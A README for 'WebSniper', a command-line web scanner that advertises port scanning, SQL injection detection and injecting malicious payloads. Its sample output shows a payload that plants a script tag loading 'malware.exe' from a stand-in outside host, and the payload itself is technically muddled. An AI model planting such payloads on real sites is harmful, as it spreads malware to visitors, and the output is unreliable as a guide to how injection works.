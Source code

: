 # WebSniper
WebSniper is a powerful web security scanning tool that can help you identify potential vulnerabilities in your web applications. With its advanced scanning capabilities, WebSniper can quickly and accurately detect open ports, SQL injection vulnerabilities, and other security weaknesses.
## Features
- Scans for open ports on web servers
- Injects malicious payloads into web applications to test for vulnerabilities
- Detects SQL injection vulnerabilities
- Provides detailed reports of scanning results
- easy-to-use command-line interface
## Result
```bash
[+] Scanning for open ports...
[+] Open ports: [80, 443]
[+] Creating payload...
[+] Payload created: {'command': "echo '<html><body><script src='http://example.com/malware.exe'></script></body></html>'"}
[+] Injecting payload...
Payload injected successfully on port 80
Payload injected successfully on port 443
[+] Scanning for SQL injection vulnerabilities...
[-] No SQL injection vulnerabilities found.

The script found two open ports (80 and 443) and successfully injected the payload on both of them. No SQL injection vulnerabilities were found.
```
## Installation
* To install WebSniper, simply clone the repository and run the websniper.py script:
Clone the repository:
```bash
 git clone https://github.com/<your-github-username>/websniper.git 
```
* Navigate to the repository directory: 
```bash
cd websniper
```
Make the script executable:
```bash
 chmod +x websniper.py
```
## Usage

To use WebSniper, simply run the websniper.py script followed by the target URL:
```bash
./websniper.py <target-url>

```
WebSniper will first perform a quick scan of the website and output a captivating message based on the scan results. Then, the script will continue to search for vulnerabilities, including open ports and SQL injection vulnerabilities.


## Disclaimer
Please note that unauthorized scanning or attacking of websites is illegal and unethical. Always obtain proper authorization before performing any security testing.

## License

WebSniper is released under the MIT License. See LICENSE for details.

## Contributing
Contributions are welcome! If you'd like to contribute to WebSniper, please submit a pull request.

